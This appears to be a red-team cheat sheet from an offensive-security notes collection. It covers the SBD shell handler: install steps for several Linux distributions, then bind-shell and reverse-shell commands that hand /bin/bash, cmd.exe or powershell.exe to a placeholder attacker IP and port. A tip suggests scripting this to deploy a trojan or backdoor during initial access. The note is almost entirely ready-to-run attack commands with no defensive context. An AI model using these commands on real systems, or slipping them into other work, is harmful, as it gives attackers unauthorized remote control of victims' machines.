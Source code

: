```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - sbd
---
```

# SBD

## 01 - Setup

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Package Manager

#### 1.1.1 - Debian-Based

Install directly in the system.

```
$ sudo apt install -y sbd
```

Another way to install the program without root permissions is by downloading the package and extract it.

```
$ apt download sbd

$ dpkg -x sbd_*.deb work
```

Then you can just execute the program as it was portable.

```
$ work/usr/bin/sbd -h
```

#### 1.1.2 - Red Hat Distros

```
$ dnf download sbd
```

#### 1.1.3 - Arch Linux Based

You can just download the `.tar.xz` file and extract it.

```
$ wget https://mirror.archstrike.org/x86_64/archstrike/sbd-1.36-6-x86_64.pkg.tar.xz

$ tar xJf sbd-*-any.pkg.tar.xz
```

Then you can just execute the program as it was portable.

```
$ usr/bin/sbd -h
```

## 01 - Linux

### 1.1 - Bind Shell

```
$ sbd -lvnp <target_PORT> -e /bin/bash
```

### 1.2 - Reverse Shell

```
$ sbd <attacker_IP> <attacker_PORT> -e /bin/bash
```

## 02 - Windows

### 2.1 - Bind Shell

```
C:\> .\sbd.exe -lvnp <target_PORT> -e cmd.exe

C:\> .\sbd.exe -lvnp <target_PORT> -e powershell.exe
```

### 2.2 - Reverse Shell

```
C:\> .\sbd.exe <attacker_IP> <attacker_PORT> -e cmd.exe

C:\> .\sbd.exe <attacker_IP> <attacker_PORT> -e powershell.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/SBD|Shell Handler: SBD]]
